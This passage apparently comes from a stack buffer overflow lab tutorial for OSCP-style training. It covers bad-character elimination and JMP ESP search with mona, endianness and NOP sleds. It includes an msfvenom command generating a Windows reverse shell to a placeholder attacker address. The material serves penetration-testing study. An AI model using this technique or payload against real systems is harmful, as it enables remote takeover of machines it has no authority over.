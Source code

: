 ```text
!mona compare -f C:\mona\oscp\bytearray.bin -a 019AFA30
```

Keep rinsing until the comparison results status returns `Unmodified`. This indicates that no more badchars are 
present. The results window now looks like:

| ![First run Immunity](../../_static/images/overflow1b.png) |
|:--:|
| No badchars left |

## Finding the jump point

When an access violation occurs, the `ESP` register points to memory which contains the data which was sent to the 
application. JMP ESP Instruction is used to redirect the code execution to that location. To find the JMP ESP, 
use a module of mona with `–cpb` option and all the bad characters found earlier, to prevent mona returning a memory 
pointer with badchars.

With all badchars identified, to use Mona to find a jump point in the application:

```text
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```

## Generate payload

Use msfvenom to create the payload:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

## Endianness

There are two ways by which a computer stores multibyte data types like int and float, these two types are known 
as Little Endian and Big Endian. `x86` is known as Little Endian architecture. In this architecture, the last byte 
of the binary is stored first. In Big Endian, the exact opposite happens: The first byte of the binary is stored 
first. When working with `x86` architecture the JMP ESP address must be converted into Little Endian format.

When adding the return address, reverse the JMP address.

## NOP-sled

A NOP-sled (No Operation sled) is a sequence of no-operation instructions which is responsible for sliding the CPU’s execution flow to 
the next memory address. Prepending `nops` before the shellcode, it does not matter where the buffer is located. 
When the return pointer hits the NOP-sled then as the name suggests it is going to slide the return address until it 
reaches the beginning of the shellcode.
